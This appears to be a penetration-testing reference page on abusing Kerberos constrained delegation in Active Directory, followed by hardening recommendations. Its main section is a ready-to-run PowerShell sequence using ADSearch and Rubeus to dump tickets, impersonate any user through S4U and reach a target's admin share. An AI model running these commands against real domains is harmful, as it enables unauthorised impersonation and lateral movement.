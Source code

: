 # Constrained Delegation
---

## Vulnerability

Contrary to [Unconstrained Delegation](/ad/unconstrained/), constrained delegation restricts services to which a domain computer can on behalf of a user. In other words, the delegation can be:
* Constrained: the computer can act on behalf of **any user** for **some services**.
* Unconstrained: the computer can act on behalf of **any user** for **any service**.

{: .important }
> Constrained delegation works for **users** as well as **computers**.

## Prerequisites

* Having compromised a domain joined computer or user with constrained delegation allowed.

## Exploit

```powershell
# Look for vulnerable domain computers and users.
.\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
.\ADSearch.exe --search "(&(objectCategory=user)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

# On the compromised domain computer, list Kerberos TGTs.
.\Rubeus.exe triage

# On the compromised domain computer, dump target's Kerberos TGT.
.\Rubeus.exe dump /luid:$LUID /service:krbtgt /nowrap

# Now, obtain a TGS for the service you want to access by impersonating any user.
.\Rubeus.exe s4u /impersonateuser:$Username /msdsspn:$Service/$TargetFQDN /user:$Hostname$ /ticket:$Base64EncodedTicket /nowrap

# Once S4U2Proxy succeded, inject the gathered ticket in a dummy session.
.\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:$DomainName /username:$Username /password:$Whatever /ticket:$S4UProxyResult

# Verify you can access your target.
ls \\$TargetFQDN\C$
```

## Recommendations

- [ ] Avoid using constrained delegation, use [resource-based constrained delegation](/ad/rbconstrained) instead.
- [ ] Enforce *Account is sensitive and cannot be delegated* for privileged domain users.
- [ ] Limit services on which privileged domain users can authenticate to avoid caching Kerberos tickets.